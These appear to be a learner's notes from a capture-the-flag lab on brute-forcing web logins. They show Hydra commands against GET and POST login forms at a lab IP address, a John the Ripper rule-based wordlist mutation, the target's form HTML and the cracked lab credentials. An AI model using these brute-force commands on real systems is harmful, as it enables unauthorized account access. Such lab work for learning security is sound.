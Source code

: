 ```shell
hydra -l phillips -P clinic.lst 10.10.105.48 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```

	login: phillips   password: Paracetamol
	
![[Pasted image 20220411205150.png]]

![[Pasted image 20220411205236.png]]

```html
<form class="form-signin" method="POST" action="index.php">
          <label for="inputEmail" class="sr-only">Username</label>
          <input name="username" type="username" id="inputEmail" class="form-control" placeholder="Username" required="" autofocus="">
          <label for="inputPassword" class="sr-only">Password</label>
          <input name="password" type="password" id="inputPassword" class="form-control" placeholder="Password" required="">
	<br>  
	<button class="btn btn-success btn-block" type="submit">Sign in</button>
</form>
```

```shell
~/tools/john/run/john --wordlist=clinic.lst --rules=Single-Extra --stdout > clinicSE.lst

```

```shell
hydra -l burgess -P clinicSE.lst 10.10.105.48 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```

![[Pasted image 20220411210230.png]]

	login: burgess   password: OxytocinnicotyxO
	
![[Pasted image 20220411210310.png]]